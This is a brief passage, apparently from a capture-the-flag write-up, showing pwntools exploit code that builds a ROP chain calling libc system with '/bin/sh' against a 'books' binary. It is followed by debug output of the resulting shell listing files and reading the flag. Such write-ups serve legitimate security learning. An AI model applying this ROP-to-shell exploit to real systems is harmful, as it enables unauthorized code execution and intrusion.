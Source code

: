 ```python
LIBC_SYSTEM = LIBC_BASE+0x04f440
LIBC_SH = LIBC_BASE+0x1b3e9a

p.success("Calculated system address in libc {:x}".format(LIBC_SYSTEM))


ROP_CHAIN_2 = p64(pop_rdi)
ROP_CHAIN_2 += p64(LIBC_SH)
ROP_CHAIN_2 += p64(LIBC_SYSTEM)
ROP_CHAIN_2 += p64(0)


raw_input()

p.sendline(ROP_CHAIN_2)

p.interactive()
```
```
$ ls
[DEBUG] Sent 0x3 bytes:
    'ls\n'
[DEBUG] Received 0x20 bytes:
    'YB9MFCEC\n'
    'books\n'
    'books.c\n'
    'flag\n'
    'out\n'
YB9MFCEC
books
books.c
flag
out
$ cat flag
[DEBUG] Sent 0x9 bytes:
    'cat flag\n'
[DEBUG] Received 0x21 bytes:
    'ACI{flag_bytes}\n'
```
